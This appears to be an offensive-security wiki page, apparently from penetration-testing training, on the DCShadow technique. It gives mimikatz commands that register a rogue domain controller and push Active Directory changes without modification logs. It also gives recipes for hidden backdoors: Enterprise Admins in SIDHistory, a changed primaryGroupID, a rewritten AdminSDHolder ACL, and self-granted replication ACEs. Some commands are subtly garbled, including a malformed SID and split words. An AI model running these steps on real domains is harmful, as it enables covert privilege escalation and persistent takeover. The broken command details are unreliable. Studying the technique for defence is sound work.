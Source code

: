 # DCShadow



## Basic Information

It registers a **new Domain Controller** in the AD and uses it to **push attributes** (SIDHistory, SPNs...) on specified objects **without** leaving any **logs** regarding the **modifications**. You **need DA** privileges and be inside the **root domain**.\
Note that if you use wrong data, pretty ugly logs will appear.

To perform the attack you need 2 mimikatz instances. One of them will start the RPC servers with SYSTEM privileges (you have to indicate here the changes you want to perform), and the other instance will be used to push the values:

```bash:mimikatz1 (RPC servers)
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
```
```bash:mimikatz2 (push) - Needs DA or similar
lsadump::dcshadow /push
```
```
Notice that **`elevate::token`** won't work in `mimikatz1` session as that elevated the privileges of the thread, but we need to elevate the **privilege of the process**.\
You can also select and "LDAP" object: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

You can push the changes from a DA or from a user with this minimal permissions:

- In the **domain object**:
  - _DS-Install-Replica_ (Add/Remove Replica in Domain)
  - _DS-Replication-Manage-Topology_ (Manage Replication Topology)
  - _DS-Replication-Synchronize_ (Replication Synchornization)
- The **Sites object** (and its children) in the **Configuration container**:
  - _CreateChild and DeleteChild_
- The object of the **computer which is registered as a DC**:
  - _WriteProperty_ (Not Write)
- The **target object**:
  - _WriteProperty_ (Not Write)

You can use [[https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) to give these privileges to an unprivileged user (notice that this will leave some logs|**Set-DCShadowPermissions**]]. This is much more restrictive than having DA privileges.\
For example: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` This means that the username _**student1**_ when logged on in the machine _**mcorp-student1**_ has DCShadow permissions over the object _**root1user**_.

## Using DCShadow to create backdoors

```bash:Set Enterprise Admins in SIDHistory to a user
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
```
```bash:Chage PrimaryGroupID (put user as member of Domain Administrators)
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
```
```bash:Modify ntSecurityDescriptor of AdminSDHolder (give Full Control to a user)
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
```
## Shadowception - Give DCShadow permissions using DCShadow (no modified permissions logs)

We need to append following ACEs with our user's SID at the end:

- On the domain object:
  - `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
  - `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
  - `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- On the attacker computer object: `(A;;WP;;;UserSID)`
- On the target user object: `(A;;WP;;;UserSID)`
- On the Sites object in Configuration container: `(A;CI;CCDC;;;UserSID)`

To get the current ACE of an object: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Notice that in this case you need to make **several changes,** not just one. So, in the **mimikatz1 session** (RPC server) use the parameter **`/stack` with each change** you want to make. This way, you will only need to **`/push`** one time to perform all the stucked changes in the rouge server.

[[https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow|**More information about DCShadow in ired.team.**]]



